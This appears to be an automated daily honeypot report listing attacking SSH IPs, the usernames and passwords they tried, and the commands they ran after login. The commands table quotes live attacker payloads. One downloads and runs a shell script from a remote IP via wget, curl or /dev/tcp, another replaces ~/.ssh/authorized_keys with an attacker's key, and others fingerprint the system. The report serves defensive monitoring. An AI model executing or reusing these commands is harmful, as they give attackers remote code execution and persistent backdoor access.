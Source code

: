 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 47.96.103.208 | 5663 |
| 149.129.249.160 | 4541 |
| 47.104.171.98 | 4264 |
| 47.242.151.31 | 3632 |
| 47.253.158.216 | 2849 |
| 39.106.143.108 | 1667 |
| 8.211.222.14 | 563 |
| 47.251.104.144 | 369 |
| 8.130.102.128 | 252 |
| 1.92.121.249 | 159 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 1444 |
| cvs | 504 |
| kali | 504 |
| tomcat | 503 |
| cynthia | 501 |
| toor | 501 |
| ubuntu | 34 |
| ubuntu2 | 9 |
| terraria | 7 |
| test | 7 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 52 |
| 111111 | 23 |
| root | 18 |
| 123 | 16 |
| P@ssw0rd | 14 |
| password | 13 |
| 1234 | 13 |
| welcome@2020 | 10 |
| rootoor | 10 |
| root!123456 | 10 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 5.182.211.148 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://154.216.19.57/sh \|\| curl http://154.216.19.57/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/154.216.19.57/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 154.216.19.57\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
| 1.92.121.249 | uname -s -m |
| 119.96.31.97 | uname -s -m |
| 192.241.141.141 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 192.241.141.141 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 192.241.141.141 | cat /proc/cpuinfo \| grep name \| wc -l |
| 77.232.142.189 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 77.232.142.189 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 77.232.142.189 | cat /proc/cpuinfo \| grep name \| wc -l |
| 203.171.21.222 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 203.171.21.222 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 203.171.21.222 | cat /proc/cpuinfo \| grep name \| wc -l |
| 109.167.197.20 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 109.167.197.20 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 109.167.197.20 | cat /proc/cpuinfo \| grep name \| wc -l |
